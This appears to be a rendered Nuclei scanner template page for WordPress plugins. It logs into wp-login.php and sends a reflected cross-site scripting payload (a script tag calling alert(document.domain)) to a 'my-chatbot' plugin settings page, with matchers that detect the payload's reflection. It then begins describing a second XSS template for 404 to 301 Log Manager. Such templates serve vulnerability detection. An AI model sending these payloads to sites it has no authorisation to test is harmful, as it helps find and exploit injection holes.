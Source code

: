 ### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/options-general.php?page=my-chatbot&tab=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. \</script>\<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress 404 to 301 Log Manager \<3.1.2 - Cross-Site Scripting

## Description

- WordPress 404 to 301 Log Manager 3.1.2 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wpscan,wp-plugin,xss,wp,wordpress,authenticated

## Requests
